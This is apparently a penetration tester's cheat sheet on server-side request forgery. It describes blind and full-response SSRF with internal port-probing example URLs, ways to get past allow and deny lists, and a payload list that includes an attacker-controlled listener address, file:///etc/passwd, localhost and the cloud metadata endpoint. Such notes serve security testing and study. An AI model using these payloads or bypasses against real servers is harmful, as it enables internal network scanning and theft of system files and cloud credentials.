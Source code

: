 # SSRF

## Types
- Blind SSRF: Allows to scan for accessible hosts and ports
  - /images/proxy?url=http://10.0.0.1/ => 80 ms
  - /images/proxy?url=http://10.0.0.1:81/ => 5014 ms
  - /images/proxy?url=http://10.0.0.1:6379/ => 94 ms
- Full response
  - Allows you to see the entire response from the server
- limited or No response: Shows a portion of the reesponse like the title of the page or No response or you have access to resources but can`t see them directly
  - /images/proxy?url=http://10.0.0.1/ => HTTP/1.1 200 OK
  - /images/proxy?url=http://10.0.0.1:87/ => HTTP/1.1 404 Not Found , 408 Request Timeout
  - /images/proxy?url=http://10.0.0.1:8080/ => HTTP/1.1 200 OK

# Potential Blockers & Solutions
- Whitelist
  - Blocker: Only allow a few domain names to be used in the request
  - Solution: Finding an Open Redirect
- Blacklisting
  - Blocker: Block access to internal IP addresses, domains or keywords
  - Solution: Creating a custom CNAME and pointing it to our internal IP address on our target
- Restricted Content-Type, extensions, characters
  - Blocker: Only allow a particular file type
  - Solution: Manual fuzzing and creating a bypass
- No response
  - Blocker: Not able to see response from the request
  - Solution: JavaScript XHR request to retrive file contents 

# Tips
- You are making a server side request
- You are browsing content that is rendering on the host machine
- There are different ways to look for content on localhost other than "localhost" or 127.0.0.1
- You may need to use an open redirect to redirect the machine to your destination host
- The current host may be able to communicate with other machines on the network (that may require being on corporate VPN)
- Make sure the request comes from the remote server and not your personal IP address

# Payload
- http://134.209.1.150:8000 (nc is running on attacker machine))
- file:///etc/passwd
- http://localhost
- http://169.254.169.254/metadata/v1
- Copy and paste *Burp Collaborator* address
